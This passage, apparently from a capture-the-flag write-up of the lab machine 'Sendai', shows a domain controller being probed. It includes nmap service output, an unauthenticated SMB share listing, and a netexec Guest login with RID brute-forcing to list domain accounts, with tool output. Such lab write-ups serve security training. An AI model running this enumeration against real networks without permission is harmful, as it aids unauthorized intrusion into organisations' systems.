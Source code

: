 ```sh
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2023-07-11T09:24:23
|_Not valid after:  2024-07-10T09:24:23
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-03-14T18:10:15+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=dc.sendai.vl
| Not valid before: 2024-03-13T18:02:06
|_Not valid after:  2024-09-12T18:02:06
| rdp-ntlm-info: 
|   Target_Name: SENDAI
|   NetBIOS_Domain_Name: SENDAI
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: sendai.vl
|   DNS_Computer_Name: dc.sendai.vl
|   DNS_Tree_Name: sendai.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-03-14T18:09:35+00:00
```

With SMB open we can try listing the share to see if any is open for unauthenticated users:
```sh
└─$ smbclient -L //<IP>               
Password for [WORKGROUP\bushidosan]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        config          Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        sendai          Disk      company share -- Open
        SYSVOL          Disk      Logon server share 
        Users           Disk      -- Open
```

In the sendai share there is a txt file stating that during a pentest weak passwords were discovered and that they got reset and should be changed ASAP. With this in mind we can start bruteforcing RIDs to get more usernames with the Guest account that is enabled.
```sh
└─$ netexec smb <IP> -u 'Guest' -p '' --shares --rid-brute
SMB         10.10.86.230    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.86.230    445    DC               [+] sendai.vl\Guest: 
SMB         10.10.86.230    445    DC               [*] Enumerated shares
SMB         10.10.86.230    445    DC               Share           Permissions     Remark
SMB         10.10.86.230    445    DC               -----           -----------     ------
SMB         10.10.86.230    445    DC               ADMIN$                          Remote Admin
SMB         10.10.86.230    445    DC               C$                              Default share
SMB         10.10.86.230    445    DC               config                          
SMB         10.10.86.230    445    DC               IPC$            READ            Remote IPC
SMB         10.10.86.230    445    DC               NETLOGON                        Logon server share 
SMB         10.10.86.230    445    DC               sendai          READ            company share
SMB         10.10.86.230    445    DC               SYSVOL                          Logon server share 
SMB         10.10.86.230    445    DC               Users           READ            
SMB         10.10.86.230    445    DC               498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.86.230    445    DC               500: SENDAI\Administrator (SidTypeUser)
SMB         10.10.86.230    445    DC               501: SENDAI\Guest (SidTypeUser)
SMB         10.10.86.230    445    DC               502: SENDAI\krbtgt (SidTypeUser)
```